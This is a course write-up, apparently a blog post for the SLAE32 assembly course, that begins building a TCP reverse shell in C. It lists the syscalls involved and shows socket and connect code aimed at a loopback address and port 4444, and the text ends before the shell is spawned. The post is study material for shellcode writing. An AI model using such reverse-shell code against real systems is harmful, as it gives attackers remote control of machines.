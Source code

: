 ```yaml
---
title: "SLAE32 - Assignment #2 - TCP Reverse Shell"
tags: ["slae32", "assembly", "shellcode", "exploit-development"]
---
```


## Introduction

This is the blog post for the 2<sup>nd</sup> Assignment of the SLAE32 course, which is offered by <a href="https://www.pentesteracademy.com/course?id=3" target="_blank">PentesterAcademy</a>. The course focuses on teaching the basics of 32-bit Assembly language for the Intel Architecture (IA-32) family of processors on the Linux platform.

The purpose of this assignment is to create a TCP Reverse Shell. A Reverse Shell has a listener running on the attacker and the target connects back to the attacker with a shell. The communication happens over the TCP protocol.

My code can be found in my Github: <a href="https://github.com/geobour98/slae32" target="_blank">geobour98's Github</a>.

## TCP Reverse Shell in C

The easiest way, in my opinion, to create a TCP Reverse Shell in `Assembly` is to first create it in `C` and then "translate" it to ASM code.

In order create the TCP Reverse Shell, a few Linux system calls (`syscalls`) will be used. They can be found in the following table:

| Syscall | Usage |
| -- | -- |
| `socket` | Creates an endpoint for communication |
| `connect` | Initializes a connection on a socket |
| `dup2` | Duplicates a file descriptor |
| `execve` | Executes a program |

Create a socket:

```c
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
```

Initialize the connection on a socket, initializing the structure for the TCP/IP address first:

```c
struct sockaddr_in address = {
	.sin_family = AF_INET,
	.sin_port = htons(4444),
	.sin_addr = inet_addr("127.1.1.1")
};

connect(sockfd, (struct sockaddr*) &address, sizeof(address));
```
